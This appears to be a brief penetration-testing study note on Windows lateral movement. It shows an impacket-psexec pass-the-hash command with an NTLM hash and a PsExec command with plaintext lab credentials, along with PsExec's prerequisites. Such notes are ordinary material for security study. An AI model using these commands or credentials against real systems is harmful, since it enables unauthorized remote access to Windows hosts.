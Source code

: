 #impacket #lateral #exploit #pth


#### NTLM PTH(Pass the Hash)

🔴 Can't use any hashes from Local Admin group other than Administrator

```bash
impacket-psexec -hashes 00000000000000000000000000000000:e78ca771aeb91ea70a6f1bb372c186b6 Administrator@192.168.50.212
```

#### Windows PSEXEC

- Writes **psexesvc.exe** into the **C:\Windows** directory
- Creates and spawns a service on the remote host
- Runs the requested program/command as a child process of **psexesvc.exe**
- ADMIN$ share must be available and File and Printer Sharing has to be turned on
- User that authenticates to the target machine needs to be part of the Administrators local group in the target.

```cmd
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```
